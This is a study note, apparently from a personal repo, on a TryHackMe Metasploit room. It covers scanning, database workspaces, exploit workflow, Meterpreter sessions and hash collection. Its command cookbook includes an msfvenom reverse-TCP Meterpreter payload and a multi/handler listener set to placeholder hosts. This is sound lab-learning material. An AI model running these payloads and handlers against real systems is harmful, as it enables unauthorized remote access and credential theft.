



# Metasploit Exploitation

## Summary

* This room is the practical continuation of basic Metasploit usage. The center of gravity is no longer "what is Metasploit?" but **how to use it coherently across scanning, database-backed workflow, exploitation, session handling, and payload delivery**.
* The most important idea is that Metasploit is not just an exploit launcher. It is a **workflow environment** with searchable modules, session management, database-backed target tracking, and payload tooling.
* For beginners, the four highest-value areas are:
  * auxiliary scanning,
  * database/workspace discipline,
  * exploitation into a Meterpreter session,
  * `msfvenom` + `multi/handler` reverse payload flow.
* The room also quietly teaches an operational truth: **Metasploit works best when you already know what you are looking for**.
* `msfvenom` matters because it separates payload generation from exploit delivery. That becomes important when you can place and execute a payload but are not using a ready-made exploit module end to end.
* The safest mental model is: **scan -> organize -> identify candidate service/vuln -> run targeted exploit or payload -> manage session -> collect evidence**.

---

## 1. Context

Metasploit Framework is an exploitation and post-exploitation environment, but its value is broader than the word "exploit" suggests.

In practical lab work, it helps with:

* scanning and enumeration,
* module search and selection,
* exploit execution,
* payload selection,
* reverse handler setup,
* session management,
* post-compromise data collection.

This room is best understood as a bridge between:

* beginner Metasploit familiarity,
* and a more operational workflow using the framework as a full working console.

---

## 2. Rules of Engagement

Use the techniques in this note only in:

* TryHackMe / HTB labs,
* controlled CTFs,
* your own systems,
* explicitly authorized pentests.

Use placeholders in notes and public repos:

* `TARGET_IP`
* `TARGET_HOST`
* `LHOST`
* `LPORT`
* `WORKSPACE_NAME`
* `USER_A`
* `/path/to/wordlist.txt`

---

## 3. Metasploit Mental Model

A useful beginner abstraction:



### Core module classes

* **Auxiliary**: scanning, enumeration, admin or support tasks
* **Exploit**: code-execution or access-establishment modules
* **Payload**: code that runs on the remote target after exploitation or delivery
* **Post**: actions run after a session exists

This matters because beginners often confuse exploits and payloads. They are connected, but not identical.

---

## 4. Scanning with Metasploit

### 4.1 Auxiliary scanners

Metasploit can scan through auxiliary modules.

Typical use cases:

* TCP port scanning
* service-specific checks
* SMB enumeration
* HTTP title/version grabs
* login testing

### Practical point

The room correctly shows that Metasploit *can* scan, but in many workflows you will still use **Nmap first**, then bring the results into Metasploit-aware workflow.

That is not a contradiction. It is operational efficiency.

### 4.2 Nmap inside Metasploit

Using `db_nmap` is a major workflow improvement because it stores discovery data in the Metasploit database.

Why this matters:

* hosts become queryable later,
* services are recorded,
* follow-up modules can reuse that context.

### Scanning principle

```text
One-off scan output is useful.
Persisted scan output is workflow.
```

### 4.3 Service-specific enumeration

The room highlights SMB and NetBIOS-style checks for a reason: once you know a service exists, Metasploit becomes most useful when you pivot from broad scanning to **service-targeted modules**.

Examples of things you may ask:

* What SMB version is running?
* What shares exist?
* Can credentials authenticate?
* What HTTP service/version is behind a port?

That is a more realistic Metasploit workflow than blindly searching "all exploits."

---

## 5. Database-Backed Workflow

This is one of the most practically important parts of the room.

### 5.1 Why the database matters

The Metasploit database keeps track of:

* discovered hosts,
* services,
* credentials,
* sessions,
* vulnerabilities,
* loot.

Without it, the console is still useful. With it, the framework becomes a much better campaign workspace.

### 5.2 Workspaces

Workspaces separate projects and reduce data contamination.

Use them when:

* switching between different labs,
* handling multiple targets,
* separating customers / projects,
* keeping host/service notes clean.

### Good habit

Create or switch to the right workspace **before** large scans.

That prevents avoidable mess.

### 5.3 Hosts and services

Once scan data is imported or collected into the database, you can query:

* `hosts`
* `services`
* service filters
* credentials
* sessions

This is how Metasploit stops being "a pile of commands" and becomes an indexed target notebook.

---

## 6. Vulnerability Research Inside the Workflow

The room labels one section as vulnerability scanning, but the more accurate phrase is:

> **vulnerability-oriented module discovery**

What you are really doing is:

1. finding a service,
2. identifying a candidate weakness,
3. searching Metasploit modules related to that weakness,
4. reviewing module info,
5. deciding whether the module is relevant.

### Better phrase

```text
Scan first.
Hypothesize second.
Search third.
Exploit fourth.
```

That sequence matters.

---

## 7. Exploitation Workflow

### 7.1 Basic logic

A normal exploit run in Metasploit follows this pattern:

1. `search` for the module
2. `use` the module
3. `show options`
4. set required variables such as `RHOSTS`
5. review/select payload if needed
6. `run` or `exploit`
7. interact with the resulting session

### 7.2 What the room is teaching

The important transferable lesson is not one specific CVE. It is the mechanics of:

* selecting a module,
* validating required options,
* accepting the default payload where appropriate,
* handling the resulting session cleanly.

### Common beginner mistake

People see an exploit module and immediately run it.

Better approach:

* read `info`
* inspect options
* understand the target preconditions
* then run it

---

## 8. Meterpreter and Session Handling

### 8.1 Why Meterpreter matters

Meterpreter is a post-exploitation payload designed to integrate tightly with Metasploit.

Compared with a plain command shell, Meterpreter usually gives:

* better framework integration,
* easier post-module usage,
* richer commands,
* more flexible session handling.

### 8.2 Core session ideas

You should be comfortable with:

* listing sessions,
* interacting with a session,
* backgrounding a session,
* returning to the session later,
* killing bad/noisy sessions when needed.

### Session pattern

```text
exploit -> session opens -> background -> inspect sessions -> re-enter when needed
```

This is a normal working rhythm.

### 8.3 Post-exploitation note

Once a host is compromised, post modules become relevant. That is the shift from:

* "Can I get access?"

to:

* "What can I collect or prove from this session?"

---

## 9. Hashes and Credential Material

The room shows that once you have the right level of access, credential material may be collectible.

A careful conceptual split:

### Windows context

Credential-related collection often involves:

* SAM-related material,
* NTLM hash extraction,
* account enumeration.

### Linux context

Credential-related collection often involves:

* `/etc/shadow`
* permission checks
* post modules or manual inspection depending on session type and privilege.

### Important lesson

The same verb "dump hashes" does not look identical across operating systems.

That distinction is operationally important.

---

## 10. `msfvenom`

### 10.1 What it is

`msfvenom` is the payload-generation utility used to create payloads in many output formats.

Think of it as:

```text
payload factory
```

You choose:

* payload type,
* architecture/platform,
* LHOST/LPORT where relevant,
* output format,
* output file,
* optional encoders.

### 10.2 Why it matters

Exploit modules are not the only path to access.

Sometimes you have a scenario where you can:

* upload a file,
* execute a file,
* trigger a script,
* place code on the target by another route.

In those cases, `msfvenom` becomes very useful because it lets you create the exact payload artifact you need.

### 10.3 Payload naming logic

A payload name such as:

```text
linux/x86/meterpreter/reverse_tcp
```

encodes key decisions:

* platform: `linux`
* architecture: `x86`
* stage: `meterpreter`
* transport/stager: `reverse_tcp`

That naming logic is worth learning early.

---

## 11. Handlers and `multi/handler`

A payload that connects back needs something listening.

That listener role is typically handled by:

```text
exploit/multi/handler
```

### Core rule

The handler's payload, `LHOST`, and `LPORT` must match the payload you generated.

If they do not match, you will waste time debugging a problem you created yourself.

### 11.1 Reverse-shell flow



That is the key workflow in the room's last major section.

---

## 12. Mini Workflow - End to End



This is the room in one picture.

---

## 13. Command Cookbook

> Authorized lab use only. All targets and values are placeholders.

### Search for modules

```text
search smb
search http
search portscan
```

### Use a module and inspect it

```text
use auxiliary/scanner/http/title
show options
info
```

### Database-backed Nmap scan

```text
db_nmap -sV TARGET_IP
```

### List indexed hosts and services

```text
hosts
services
services -S smb
```

### Create and switch workspace

```text
workspace -a WORKSPACE_NAME
workspace WORKSPACE_NAME
workspace
```

### Generic exploit workflow

```text
search MODULE_NAME
use MODULE_NAME
show options
set RHOSTS TARGET_IP
run
```

### List and interact with sessions

```text
sessions
sessions -i SESSION_ID
```

### Generate a payload with `msfvenom`

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=LHOST LPORT=LPORT -f elf -o payload.elf
```

### Start a simple reverse handler

```text
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST LHOST
set LPORT LPORT
run
```

### Core verification checklist

```text
- correct workspace?
- correct RHOSTS?
- correct payload?
- correct LHOST/LPORT?
- correct architecture/platform?
- session successfully opened?
```

---

## 14. Pattern Cards

### Pattern Card 1 - Search is part of exploitation

**Problem**
: beginners treat module search as busywork.

**Reality**
: search + info review is how you avoid running the wrong thing.

**Lesson**
: module selection is part of the exploit process.

### Pattern Card 2 - Database turns scans into reusable knowledge

**Problem**
: raw scan output gets lost or forgotten.

**Reality**
: `db_nmap`, `hosts`, and `services` create a reusable target memory.

**Lesson**
: persistence of findings improves follow-on actions.

### Pattern Card 3 - Session management is real operational discipline

**Problem**
: new users lose sessions or create session chaos.

**Reality**
: backgrounding, listing, re-entering, and killing sessions cleanly is normal framework usage.

**Lesson**
: exploitation without session discipline becomes messy fast.

### Pattern Card 4 - `msfvenom` separates payload creation from exploit modules

**Problem**
: users think Metasploit only works through packaged exploit modules.

**Reality**
: payloads can be generated and delivered by other means.

**Lesson**
: framework utility extends beyond direct exploit chains.

### Pattern Card 5 - Handler mismatch is a self-inflicted wound

**Problem**
: the payload does not connect back.

**Reality**
: payload type or `LHOST`/`LPORT` often do not match between `msfvenom` and `multi/handler`.

**Lesson**
: verify the pair before debugging anything else.

---

## 15. Common Pitfalls

### 15.1 Running modules without reading `show options`

This causes avoidable errors and misleading failures.

### 15.2 Treating Metasploit scanning as a full replacement for careful enumeration

It is useful, but service understanding still matters.

### 15.3 Forgetting workspace hygiene

This pollutes host/service/session context across labs.

### 15.4 Confusing shell vs Meterpreter

They are related but not equivalent in capability or workflow.

### 15.5 Mismatching payload architecture or platform

A Linux x86 payload will not solve a Windows x64 problem.

### 15.6 Debugging the target before debugging your listener

In reverse payload flows, start by verifying your own `LHOST`, `LPORT`, handler, and payload settings.

---

## 16. Defensive Takeaways

Metasploit teaches defenders several uncomfortable but useful truths:

* exposed weak services become exploitation candidates quickly,
* default or weak credentials amplify impact,
* public vulnerabilities remain highly operational once packaged in common tools,
* post-exploitation capability grows dramatically once one host is lost,
* segmentation, patching, service reduction, and monitoring matter.

What makes Metasploit powerful is often not novelty, but **workflow speed against known weaknesses**.

---

## 17. Takeaways

* Metasploit is best understood as a **workflow framework**, not just an exploit launcher.
* The most important progression in this room is: **scan -> organize -> search -> exploit -> manage session -> extend with payload tooling**.
* `db_nmap`, workspaces, `hosts`, and `services` are what make repeated use sustainable.
* Meterpreter is valuable because it integrates tightly with post-exploitation actions and session handling.
* `msfvenom` matters because it lets you generate payloads independently of a single packaged exploit.
* `multi/handler` is the receiving side of many reverse payload flows; it must match the payload configuration exactly.

---

## 18. CN-EN Glossary

* Metasploit Framework - Metasploit 框架
* Auxiliary Module - 辅助模块
* Exploit Module - 利用模块
* Payload - 载荷
* Post Module - 后渗透模块
* Meterpreter - Metasploit 高级会话载荷
* Session - 会话
* Reverse Shell - 反弹 Shell
* Bind Shell - 绑定 Shell
* Handler - 处理器 / 监听处理器
* `multi/handler` - 多用途载荷监听模块
* Workspace - 工作区
* `db_nmap` - 带数据库记录的 Nmap 扫描
* Service Enumeration - 服务枚举
* Host Discovery - 主机发现
* Credential Material - 凭据材料
* NTLM Hash - NTLM 哈希
* `/etc/shadow` - Linux 密码哈希文件
* `msfvenom` - Metasploit 载荷生成工具
* Stager - 分阶段载荷引导器
* Stage - 分阶段载荷主体

---

## 19. References

* Metasploit official documentation: modules, sessions, database support, payloads, reverse handlers, and msfvenom
* TryHackMe room content: *Metasploit Exploitation*
